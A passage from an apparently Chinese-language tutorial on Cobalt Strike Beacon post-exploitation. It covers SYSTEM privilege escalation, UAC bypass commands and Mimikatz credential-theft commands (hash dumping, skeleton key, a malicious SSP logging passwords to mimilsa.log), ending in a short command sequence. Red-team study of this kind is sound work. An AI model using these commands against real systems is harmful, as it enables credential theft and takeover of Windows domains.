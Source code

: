 ```
**getsystem** - This command impersonates a token for the SYSTEM account. This level of access may allow you to perform privileged actions that are not possible as an Administrator user.

Another way to get SYSTEM is to create a service that runs a payload. The **elevate svc-exe [listener]** command does this. It will drop an executable that runs a payload, create a service to run it, assume control of the payload, and cleanup the service and executable.

### UAC Bypass

如果当前的用户不是`Administrator`的话，这种方式可能不成功，所以先用`run whoami /groups`看一下当前用户是否在`Administrators`组里面。

常用的有以下几种：

**elevate uac-token-duplication [listener]** - This command spawns a temporary process with elevated rights and inject a payload stage into it. This attack uses a UAC-loophole that allows a non-elevated process to launch an arbitrary process with a token stolen from an elevated process. This loophole requires the attack to remove several rights assigned to the elevated token. The abilities of your new session will reflect these restricted rights. If Always Notify is at its highest setting, this attack requires that an elevated process is already running in the current desktop session (as the same user). This attack works on Windows 7 and Windows 10 prior to the November 2018 update.

![image-20240228171453255](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402281714393.png)

**runasadmin uac-token-duplication [command]** - This is the same attack described above, but this variant runs a command of your choosing in an elevated context.

**runasadmin uac-cmstplua [command]** - This command attempta to bypass UAC and run a command in an elevated context. This attack relies on a COM object that automatically elevates from certain process contexts (Microsoft signed, lives in c:\windows\*).

### Mimikatz

在 Beacon 中集成了 mimikatz ，mimikatz 执行命令有三种形式：

- `mimikatz [module::command] <args>` 运行 mimikatz 命令
- `mimikatz [!module::command] <args>` 强制提升到 SYSTEM 权限再运行命令，因为一些命令只有在 SYSTEM 身份下才能被运行。
- `mimikatz [@module::command] <args>` 使用当前 Beacon 的访问令牌运行 mimikatz 命令

下面是一些`mimikatz`命令。

- `!lsadump::cache` 获取缓存凭证，默认情况下 Windows 会缓存最近10个密码哈希
- `!lsadump::sam` 获取本地账户密码哈希，该命令与 hashdump 比较类似
- `misc::cmd` 如果注册表中禁用了 CMD ，就重新启用它
- `!misc::memssp` 注入恶意的 Windows SSP 来记录本地身份验证凭据，这个凭证存储在“C:\windows\system32\mimilsa.log”中
- `misc::skeleton` 该命令仅限域内使用。该命令会给所有域内用户添加一个相同的密码，域内所有的用户都可以使用这个密码进行认证，同时原始密码也可以使用,其原理是对 lsass.exe 进行注入，重启后会失效。
- `process::suspend [pid]` 挂起某个进程，但是不结束它
- `process::resume [pid]` 恢复挂起的进程

以上的这些只是`mimikatz`能做事情的一小部分，下面看看`!misc::memssp`的使用。

```
mimikatz !misc::memssp
cd C:\Windows\system32
shell dir mimilsa.log
shell type mimilsa.log
```

详细运行过程：

首先运行`mimikatz !misc::memssp`

```